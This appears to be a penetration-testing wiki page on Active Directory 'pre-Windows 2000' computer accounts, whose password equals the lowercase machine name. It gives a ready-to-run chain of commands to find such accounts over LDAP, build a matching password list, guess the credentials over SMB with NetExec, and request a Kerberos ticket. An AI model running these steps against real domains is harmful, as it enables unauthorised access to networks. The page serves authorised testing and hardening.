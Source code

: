 ```yaml
---
authors: ShutdownRepo, mpgn
---
```


# Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) for instance.


```powershell
# 1. find pre-created accounts that never logged on
ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&(userAccountControl=4128)(logonCount=0))' | tee results.txt

# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
nxc smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce
```


> You will see the error message STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

> [!SUCCESS]
> Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip_dragovic/status/1524730451826511872))
> 
> ```bash
> getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
> ```
> 
> The ticket obtained can then be used with [ptt.md](../kerberos/ptt.md)

## Resources

[https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)

[https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187](https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187)
